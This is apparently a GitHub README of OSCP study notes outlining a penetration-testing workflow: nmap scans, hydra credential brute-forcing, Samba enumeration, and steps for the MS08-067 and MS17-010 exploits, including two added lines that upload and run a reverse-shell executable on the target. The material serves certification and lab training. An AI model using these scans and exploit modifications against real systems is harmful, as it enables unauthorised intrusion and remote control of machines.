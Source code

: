 # oscp_methodology
OSCP Methodology


## Blackbox
#### nmap full tcp port scan
* nmap <ip> -sV -sC -O -T4 --traceroute -p - -oA ~/path/filename

#### Ftp
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* Anonymous login
* nmap info

#### SSH
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* nmap info

#### Samba
* nmap info:
  * OS samba
  * Computer name/NetBIOS name
  * Domain name
  * Workgroup
  * OS of machine

* service (OS samba or nmap service header (139 & 445)) -> exploit
* nmap -sV -sC --open -T4  -p 139,445 --script=vuln --script-args=unsafe=1 <ip>
* enum4linux
* smbclient
 

## Exploits
### Windows
#### MS08-067
git clone https://github.com/andyacer/ms08_067.git
* configuration
  * pip install impacket
* 2 reverse options for shellcoding:
  * Use the third with 443
  * Use the third with default
  * Use second with default
  * Use second with port of third or another port
* Choose the right option of menu.
  * Find OS of machine
  * Guess lanhuage
* Needs listener

### Windows
#### MS17-010
git clone https://github.com/worawit/MS17-010.git
* zzz_exploit.py:
 * If needed USERNAME-"//"
 * next add the following 2 lines to below def smb
 
   '''
   
   smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
   service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
   
   '''
 
